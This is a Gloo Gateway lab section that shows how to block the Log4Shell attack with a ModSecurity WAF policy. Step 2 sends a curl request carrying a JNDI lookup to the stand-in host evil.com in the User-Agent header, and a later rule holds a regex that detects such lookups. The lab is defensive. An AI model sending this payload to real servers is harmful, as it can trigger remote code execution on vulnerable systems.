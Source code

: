 Gloo Gateway utilizes OWASP ModSecurity to add WAF features into the ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.
![log4j exploit](images/log4j_attack.png)

2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X GET -H "x-api-key: developer" -H "User-Agent: \${jndi:ldap://evil.com/x}" https://$GLOO_GATEWAY_HTTPS/products
```

3. With the Gloo WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

* In the route table, the top level route has the label `ingress: all`. The WAF policy applies to ALL routes through the ingress gateway.
* In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.

```yaml
kubectl apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: gloo-mesh-gateways
spec:
  applyToRoutes:
  - route:
      labels:
        ingress: all ##### NOTE
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |-
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://"
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

